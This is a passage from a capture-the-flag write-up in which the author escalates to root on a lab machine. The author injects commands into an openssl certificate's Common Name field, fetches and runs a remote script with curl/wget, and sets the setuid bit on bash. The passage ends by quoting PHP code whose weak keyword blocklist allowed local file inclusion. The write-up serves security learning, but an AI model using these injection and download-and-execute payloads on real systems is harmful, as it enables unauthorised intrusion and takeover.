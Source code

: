 Then get the payload using curl:

```bash
Common Name (e.g. server FQDN or YOUR name) []:whatever;curl 10.10.14.169:8000/x|bash;
```

Openssl accepts this, however, i don't get a callback. When trying out the payload manually, i notice 2 flaws:
- Due to the parsing of the variables, bash interprets the `commonName` variable as a string and the command doesn't get executed. I can bypass this by enclosing the payload in `$()`. When `$()` appers in a string, bash executes the command inside the brackets and replaces `$()` with the command result.
- There is no `curl` command on the machine, however, there is `wget`, so i can use that instead.

The final exploit looks like this:

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out broscience.crt -sha256 -days 1
...
Common Name (e.g. server FQDN or YOUR name) []:$(wget 10.10.14.169:8000/x -O x;bash x)
...
```

This works, and i get a shell as root, but it crashes after a few seconds. I think it's probably because of the `timeout` command in the cronjob. To deal with this, i will use differnet payload. This time, i will add the setuid permissions to bash:

```bash
$(chmod u+s /bin/bash)
```

After two minutes, i check `bash` and see that it has the setuid bit set. Ican use it to get root shell.

```
bill@broscience:~/Certs$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
bill@broscience:~/Certs$ bash -p
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1# cat /root/root.txt 
78f4458060020f3abfa97d510a983a6c
```

## Fixing the vulnerability

I gained initial access because the code was vulnerable to LFI. This is the vulnerable code:

```php
<?php
if (!isset($_GET['path'])) {
    die('<b>Error:</b> Missing \'path\' parameter.');
}

// Check for LFI attacks
$path = $_GET['path'];

$badwords = array("../", "etc/passwd", ".ssh");
foreach ($badwords as $badword) {
    if (strpos($path, $badword) !== false) {
        die('<b>Error:</b> Attack detected.');
    }
}

// Normalize path
$path = urldecode($path);

// Return the image
header('Content-Type: image/png');
```